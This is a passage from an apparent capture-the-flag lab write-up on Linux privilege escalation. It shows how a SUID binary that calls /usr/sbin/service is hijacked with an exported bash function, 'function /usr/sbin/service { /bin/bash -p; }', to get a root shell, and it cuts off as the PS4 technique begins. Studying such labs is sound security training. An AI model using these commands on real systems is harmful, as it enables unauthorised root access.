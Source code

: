 No answer needed
```

<br/>
<br/>

### 14: SUID / SGID Executables - Abusing Shell Features (#1)

The `/usr/local/bin/suid-env2` executable is identical to `/usr/local/bin/suid-env` except that it uses the absolute path of the service executable `/usr/sbin/service` to start the `apache2` webserver.

We can verify this using the `strings` command:

```
strings /usr/local/bin/suid-env2
```

![image](https://user-images.githubusercontent.com/14150485/172800589-e9706957-6083-4020-a99e-b909541fe4fd.png)

In bash versions <4.2-048 it is possible to define shell functions with names resembling file paths, then export those functions so that they are used instead of any actual executable at that file path. To see the bash version on the target machine:

```
/bin/bash --version
```

![image](https://user-images.githubusercontent.com/14150485/172801031-526a6403-a58f-4d74-a303-e7c205c99b69.png)

The current version is 4.1.52(1)-release, meaning we can indeed define functions with file names. Let's follow the intructions on the task to create one with the name `/usr/sbin/service` that will execute a new bash shell, using option `-p`to ensure permissions are preserved, and then export the function:

`function /usr/sbin/service { /bin/bash -p; }`
`export -f /usr/sbin/service`

Once done we can proceed to run the  `/usr/local/bin/suid-env2` executable to get our root shell:

![image](https://user-images.githubusercontent.com/14150485/172802087-a853024c-96ae-4fa2-ba0f-b85b3f7f98c0.png)

<br/>

#### 14.1: Read and follow along with the above.

```
No answer needed
```

<br/>
<br/>


### 15: SUID / SGID Executables - Abusing Shell Features (#2)

The example demonstrated in this second part will only work with bash shell versions 4.4 and above.

When in debugging mode, Bash uses the environment variable `PS4` to display an extra prompt for debugging statements.

```